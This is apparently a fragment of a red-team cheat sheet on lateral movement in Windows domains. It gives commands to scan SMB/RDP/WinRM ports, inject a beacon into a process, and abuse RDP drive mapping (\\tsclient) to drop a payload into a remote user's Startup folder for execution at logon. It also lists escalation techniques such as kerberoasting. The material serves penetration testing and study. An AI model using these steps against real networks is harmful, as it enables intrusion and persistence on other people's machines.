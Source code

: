 ````
#### Scan the hosts/subnets in the other doamin
```
nmap -p 139,445,3389,5985 <CIDR>
```

#### Inject in one of the proccesses
```
inject <PID> x64 <BEACON>
```

#### Then move laterally through open ports or query the domain for other privilege escalation methods.
- SMB, winrm, kerberoasting, as-reproasting, password in description, ACL's etc.
- Even if user was not a local admin on any system, or if none of the juicy management ports were available, it can still be possible to move laterally via the established RDP channel. This is where the drive sharing comes into play.
 
### Drive mapping
- When a user enables drive sharing for their RDP session, it creates a mount-point on the target machine that maps back to their local machine. If the target machine is compromised, we may migrate into the user's RDP session and use this mount-point to write files directly onto their machine. This is useful for dropping payloads into their startup folder which would be executed the next time they logon.
- Works when users from a outbound trust RDP into a computer in the current domain with drive mapping.
 
#### Check the testclient C Drive
```
ls \\tsclient\c
```

#### Go to the startup folder of the user:
```
cd \\tsclient\c\Users\<USER>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
 
#### Upload paylaod
```
upload C:\Payloads\pivot.exe
```
 
